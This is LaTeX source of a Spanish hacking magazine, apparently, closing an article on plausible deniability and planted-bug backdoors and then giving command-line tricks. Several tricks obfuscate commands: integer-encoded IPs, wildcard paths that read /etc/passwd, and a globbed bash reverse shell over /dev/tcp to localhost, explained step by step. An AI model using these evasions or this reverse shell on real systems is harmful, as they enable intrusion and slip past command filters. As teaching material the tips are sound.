\sectiontext{white}{black}{DENEGACI�N PLAUSIBLE}\label{denegaciuxf3n-plausible}}

Si bien, este tipo de vulnerabilidades (los \emph{Doble Zero}) se supone
que son fruto de alg�n tipo de error en el desarrollo del software, nada
impide que todo esto se haga a prop�sito como una forma de obtener
acceso a los sistemas en los que se instale ese \emph{Software}, o al
propio Software. En ese caso, no es posible decidir sin lugar a dudas si
la vulnerabilidad ha sido un error en el programa o ha sido puesta a
prop�sito para permitir a terceras partes hacer cosas feas.

Esta situaci�n se conoce como \emph{Denegaci�n Plausible}. Si la entidad
haciendo esto dice que no lo ha hecho a prop�sito, vamos, que no ten�a
ni idea de que el bug estuviera all�, no hay forma de saber si dice la
verdad o no, y en esas circunstancias no puede ser acusada de ninguna
actividad ilegal. No ha sido m�s que un inocente error y en el peor de
los casos, tendr�n que pagar una indemnizaci�n a los afectados.

\begin{entradilla}
{\em Las t�cnicas esteganogr�ficas son un ejemplo de denegaci�n plausible}
\end{entradilla}


Este concepto se utiliza tambi�n con el almacenamiento de datos
cifrados. En concreto las t�cnicas esteganogr�ficas (No te pierdas
\href{https://ibolcode.net/roor/2016-09-mensajes-clandestinos}{este
art�culo} si es que no lo has le�do ya) son una forma de denegaci�n
plausible puesto que no se puede probar que una imagen (por ejemplo)
contenga un mensaje cifrado o no\ldots{} bueno, hay que hacerlo con
cierto cuidado, pero si las t�cnicas se aplican correctamente es
perfectamente factible negar que existe un mensaje cifrado dentro de la
imagen, y la persona cuestionando esa afirmaci�n no tendr� forma de
probar que si lo hay.


Otra forma de denegaci�n plausible que utilizan algunos sistemas de
cifrado de disco es el anidamiento de unidades cifradas. El sistema de
cifrado crea una unidad virtual de almacenamiento cifrada. Cualquier
Software decente de cifrado inicializar� la unidad cifrada con valores
aleatorios, de forma que no sea posible inferir cuanta informaci�n est�
almacenada en esa unidad. Pues bien, si dentro de una de estas unidades
cifradas, almacenamos otra unidad cifrada (en el espacio libre de la
primera), no es posible detectar la existencia de la segunda unidad.

En estos casos, el due�o del sistema de almacenamiento, un disco por
ejemplo, puede, bajo coacci�n, compartir la clave del primer sistema y
comprometer cierta informaci�n. Sin embargo, no existe ninguna evidencia
de que el \emph{espacio libre} en la unidad cifrase contenga ning�n otro
tipo de datos. La idea principal es que, una vez que has dado la
informaci�n para acceder a la informaci�n secreta, la entidad que quiere
obtenerla asumir� que ya la tiene y no buscar� m�s.

\hypertarget{puertas-traseras}{%
\sectiontext{white}{black}{PUERTAS TRASERAS}\label{puertas-traseras}}

Como adelantamos en una secci�n anterior, este tipo de \emph{errores}
constituyen la forma m�s sencilla y segura de implementar puertas
traseras en Software. No existe ninguna evidencia de un problema a
priori, y la puerta trasera estar� disponible mientras nadie se percate
de su existencia. Es lo que podr�amos llamar: \emph{Plantar un Zero
Day}.

Cuando hablamos de software propietario cuyo c�digo fuente no est�
disponible, la detecci�n de este tipo de bugs puede llevar a�os durante
los cuales ciertas partes dispondr�n de acceso libre a todos los
usuarios de ese software. Si ese software no es el m�s popular del
mundo, el proceso de detecci�n de esos bugs puede alargarse incluso m�s.

\begin{entradilla}
{\em La forma m�s efectica de esconder una puerta trasera es incluir un bug en el software}
\end{entradilla}

Esto es algo conocido. Tan conocido que existe un concurso conocido,
valga la redundancia, como
\href{https://en.wikipedia.org/wiki/Underhanded_C_Contest}{\emph{Underhanded
C contest}} o Concurso\_ de C Enga�oso\_ en el que el objetivo es
producir programas que pasen una inspecci�n rigurosa pero que permita
realizar algo malicioso de tal forma que, una vez descubierto el enga�o
este parezca un error honesto del programador. Si es que est� todo
inventado :).

\hypertarget{conclusiones}{%
\sectiontext{white}{black}{CONCLUSIONES}\label{conclusiones}}

Bueno esto es lo que os quer�a contar. Espero que ahora teng�is m�s
claro que es un \emph{Zero Click} y porque son tan peligrosos. Que tus
sistemas pueden ser infectados incluso sin hacer nada mal. Que es la
denegaci�n plausible y como las compa��as pueden a�adir puertas traseras
en el Software de forma legal sin que nadie lo separa durante largos
periodos de tiempo. \EOP
\end{multicols}

\rput(8.0,-2.0){\resizebox{!}{4.2cm}{{\epsfbox{images/promo/promo-sol.eps}}}}

%\include{gstreamer}
%\include{noparam}
%\include{password}
%\include{bf02}
%\include{bf03}
%\include{seguridad}
%\include{linux}
%\include{pildora-alloca}
%\include{seguridad}
%\include{bucle}
%\include{compresion}
%\include{geek_bf01}
%\include{truquis}



\rput(2.5,-1.0){\resizebox{!}{4.5cm}{{\epsfbox{images/general/trucos1.eps}}}}
\hypertarget{trucos1}{}\label{trucos}

\pagestyle{trucos}


% -------------------------------------------------
% Cabecera
\begin{flushright}


{\color{introcolor}\mtitle{8cm}{Con un par... de l�neas}}

\msubtitle{8cm}{S�cale todo el partido a la l�nea de comandos}

{\sf\color{white}{ por Tamar�z el de la Perd�z}}

%{{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}}
\end{flushright}


%\vspace{1mm}
% -------------------------------------------------


%\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\footnotesize}
\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}



\begin{multicols}{2}

\hypertarget{como-listar-un-directorio-sin-ls}{%
\sectiontext{white}{black}{COMO LISTAR UN DIRECTORIO SIN \texttt{ls}}\label{como-listar-un-directorio-sin-ls}}

Este es un truco bastante g�ay que nos permite listar el contenido de un
directorio sin usar {\verb!ls!}.

\begin{lstlisting}
$ for i in *; echo $i; done
\end{lstlisting}

Alternativamente podemos usar {\verb!echo!} para listar
los ficheros en un determinado directorio:

\begin{lstlisting}
$ echo /tmp/*
\end{lstlisting}

\hypertarget{encriptar-ficheros-tar-con-openssl}{%
\sectiontext{white}{black}{ENCRIPTAR FICHEROS TAR CON \texttt{openssl}}\label{encriptar-ficheros-tar-con-openssl}}

Alguna vez has tenido que enviar una serie de ficheros protegidos con
contrase�a. Algunas aplicaciones de compresi�n te permiten cifrar los
datos, pero en caso de que no tengas ninguna a mano, este es un truco
para enviar tus datos cifrados

\begin{lstlisting}
$ tar czf - * | openssl enc -e -aes256 -out sec.tar.gz
$ openssl enc -d -aes256 -in sec.tar.gz | tar xz -C DIR
\end{lstlisting}

\hypertarget{ofuscando-ips}{%
\sectiontext{white}{black}{ODUSCANDO IPs}\label{ofuscando-ips}}

Como todos sabemos una direcci�n IP es un grupo de 4 valores separados
por un punto. Cada uno de las partes de una IP puede tomar valores entre
0 y 255, o en otras palabras, se puede almacenar en un solo byte, y por
lo tanto, la direcci�n completa se puede almacenar en un entero de
32-bits.

Pues bien, muchos programas que aceptan direcciones IP nos permiten
especificarla como un valor entero. Los siguientes comandos conectan a
{\verb!localhost!} en el puerto 9999

\begin{lstlisting}
$ curl 2130706433:9999 
$ nc $((0x7f000001)) 9999
\end{lstlisting}

Efectivamente:

\begin{lstlisting}
 $ printf %x 2130706433
 $ echo $((0x7f000001))
 2130706433
 $ printf "%x %x %x %x\n" 127 0 0 1
 7f 0 0 1
\end{lstlisting}

Mola no?

\hypertarget{ejecutando-comandos-incompletos}{%
\sectiontext{white}{black}{EJECUTANDO COMANDOS INCOMPLETOS}\label{ejecutando-comandos-incompletos}}

Sab�as que la shell no solo usa los wildcards o caracter comod�n para
expandir par�metros, sino que lo aplica a todos los elementos de la
l�nea de comandos?. Por ejemplo, el siguiente comando muestra el fichero
{\verb!/etc/passwd!}.

\begin{lstlisting}
$ /???/?at /e??/pa????
\end{lstlisting}

Otro ejemplo m�s interesante, usando nuestro querido Netkitty
(suponiendo que est� instalado en
{\verb!/usr/local/bin!}

\begin{lstlisting}
$ /???/l*/???/?k  -c T,2130706433,1337
\end{lstlisting}

Un par de ejemplos m�s usando {\verb!nc.openbsd!}
instalado en {\verb!/bin!}.

\begin{lstlisting}
$ /???/n?.*s? 2130706433 $((023417))
$ /???/??.o* 2130706433 $((0x270f))
$ /???/??.?p* 0177000000001 $((6#114143))
\end{lstlisting}

Esta l�nea inicia una conexi�n al puerto 9999 en localhost. Y esta
inicia un \emph{reverse shell} a
{\verb!127.0.0.1:9999!}

\begin{lstlisting}
$ /???/b??h -i >& `echo /d*/``echo top | \
> sed s/o/c/`/2130706433/$((6#114143)) 0>&1
$ /*/b?s? -i >& `echo /d*/``echo top | \
>sed s/o/c/`/2130706433/9999 0>&1
\end{lstlisting}

Veamos elemento a elemento que es lo que estamos ejecutando:

\begin{itemize}

\item
  {\verb!/*/b?s? -i >\&!} esta parte se expandir� a
  {\verb!/bin/bash -i >\&!} que inicia una shell en
  modo interactivo y redirecciona la entrada y salida est�ndar a lo que
  sigue
\item
  {\verb!`echo /d*/``echo top | sed s/o/c/`!} este
  comando se expande a {\verb!/dev/tcp!} que es un
  pseudo fichero con el que podemos establecer conexiones TCP desde bash
\item
  {\verb!/2130706433/!} esta es la direcci�n IP en
  formato decimal. Ya has visto como generarla en el truco anterior. En
  este caso corresponde con {\verb!127.0.0.1!}
\item
  {\verb!$((6\#114143))!} este es el puerto 9999 en
  base 6
\item
  {\verb!0>\&1!} y esta redirecci�n final indica que la
  entrada est�ndar tambi�n se redirige al descriptor de ficheros 1 que
  ahora es el socket TCP a la direcci�n indicada.
\end{itemize}

\hypertarget{generar-palabras-aleatorias}{%
\sectiontext{white}{black}{GENERAR PALABRAS ALEATORIAS}\label{generar-palabras-aleatorias}}

La utilidad {\verb!look!} genera una lista de palabras
que empiezan por los caracteres que le pasamos como par�metro. En
realidad lo que hace es una b�squeda en el diccionario del sistema
buscando palabras que comiencen con las letras que le indicamos. Podemos
usar esta utilidad para generar una palabra aleatorio con un comando
como este:

\begin{lstlisting}
$ look . | shuf | head -1
\end{lstlisting}

Si cambiamos el {\verb!-1!} de
{\verb!head!} podemos obtener m�s palabras :)
\end{multicols}



\pagestyle{empty} 

\rput(8,-13.5){\resizebox{24.5cm}{!}{{\epsfbox{images/general/contraportada.eps}}}}



\end{document}
% Convert files
%  iconv -c -t ISO_8859-1 paper3.tex -o paper4.tex
% -c elimina caracteres invalidos
%  file -ib paper1.tex

% Emacs substitutions
%  \\passthrough{\\lstinline!\(.+\)!} -> \\verb!\1!
% 

% Colors
% black, blue, brown, cyan, darkgray, gray, green, lightgray, lime, magenta, olive, orange, pink, purple, red, teal, violet, white, yellow.
